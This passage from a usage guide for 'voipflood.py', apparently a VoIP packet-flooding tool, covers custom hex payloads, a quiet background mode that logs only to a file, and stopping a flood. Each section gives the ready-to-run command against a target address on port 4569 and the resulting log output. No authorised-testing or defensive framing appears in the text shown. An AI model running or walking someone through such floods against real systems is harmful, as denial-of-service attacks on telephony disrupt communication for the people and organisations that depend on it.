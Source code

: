 
#### 4. Using a Custom Payload
**What It Does**: Sends packets with a user-defined hex payload.
**How to Use**:
1. Specify a hex payload:
   ```bash
   python3 voipflood.py 192.168.1.100 -l 0x414243 -c 10
   ```
**What Happens**:
- Packets use the custom payload:
  ```
  2025-05-15 10:45:00 - Starting VoIPFlood: Target=192.168.1.100:4569, Packets=10, Rate=0.01s
  2025-05-15 10:45:01 - Sent packet 1 to 192.168.1.100:4569, 3 bytes
  ```
**Tips**:
- Use `0x` prefix for hex (e.g., `0x414243` for `ABC`).
- Ensure the payload fits the packet size or adjust `-s`.

#### 5. Quiet Mode
**What It Does**: Reduces terminal output, logging only to the file.
**How to Use**:
1. Enable quiet mode:
   ```bash
   python3 voipflood.py 192.168.1.100 -q -c 100
   ```
**What Happens**:
- No terminal output; logs go to `voipflood.log`:
  ```
  $ python3 voipflood.py 192.168.1.100 -q -c 100
  [No output]
  ```
- Log file example:
  ```
  2025-05-15 10:50:00 - Starting VoIPFlood: Target=192.168.1.100:4569, Packets=100, Rate=0.01s
  2025-05-15 10:50:01 - Sent packet 1 to 192.168.1.100:4569, 100 bytes
  ```
**Tips**:
- Check logs with `cat voipflood.log` or `tail -f voipflood.log`.
- Useful for running in the background.

#### 6. Stopping the Tool
**What It Does**: Stops sending packets when the count is reached or you press Ctrl+C.
**How to Use**:
1. Start flooding:
   ```bash
   python3 voipflood.py 192.168.1.100 -c 100
   ```
2. Press `Ctrl+C` to stop early.
**What Happens**:
- Flooding stops, and results are saved:
  ```
  2025-05-15 10:55:00 - Starting VoIPFlood: Target=192.168.1.100:4569, Packets=100, Rate=0.01s
  ^C
  2025-05-15 10:55:02 - VoIPFlood stopped by user
  2025-05-15 10:55:02 - Sent 20 packets. Results saved to voipflood_results_20250515_105502.txt
  ```
**Tips**:
- Always stop the tool to free network resources.
- Results are saved even if stopped early.
